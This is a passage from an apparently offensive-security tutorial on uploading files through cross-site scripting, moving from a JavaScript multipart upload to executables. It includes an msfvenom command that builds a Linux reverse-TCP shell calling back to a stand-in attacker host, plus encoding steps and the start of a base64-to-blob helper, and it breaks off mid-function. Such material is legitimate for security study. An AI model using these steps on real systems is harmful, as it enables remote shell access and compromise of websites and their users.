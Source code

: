 ```
```
<br>
At the first few lines, we define the content type, same as seen in the request. Then we add the file content as a string. We can easily do this because our file is plain text. Then we have to convert our file to a blob. This is important because the formData function we will use only accepts blob or object as file. Then we arrive at the formData section. As we could see in the request the type of the request is multipart/form-data. To avoid setting all these lines one by one, as body content, we can use the built in formdata function that will do this for us. We just need to set some of the names and parameters. Then we send the request with the formData as payload.

![](/img/OffensiveXSS2/fileupload1.PNG)


<h3>Executables upload</h3>
So far we have a file upload script. Now let's say we need to upload an executable. We can try with our script, replacing the parameters to see what is happening and we can quickly see that this  does not work. We need a new way to upload files via xss to make it work on non text based payloads. Luckily we have a really nice blogpost, with the same issue <a href="https://www.dubget.com/file-upload-via-xss.html"> here</a>. Let's walk through the steps on how to make this work.
First I will create my executable that I would like to upload:
<br>
```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=AttackerIP LPORT=AttackerPort -f elf > shell-x86.elf
```
<br>
Then we can check the content type of the file with the command:
```
file --mime-type shell-x86.elf
```
<br>
That will give us "shell-x86.elf: application/x-executable" so now we know what we can use as a content_type in our script. Next part is to convert the file to base64. For this we have a simple command:
<br>
```
cat shell-x86.elf | base64 -w 0
```
<br>
Okay, we have the payload in a usable single base64 line that we can just insert in our script.
<br>
```
function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
```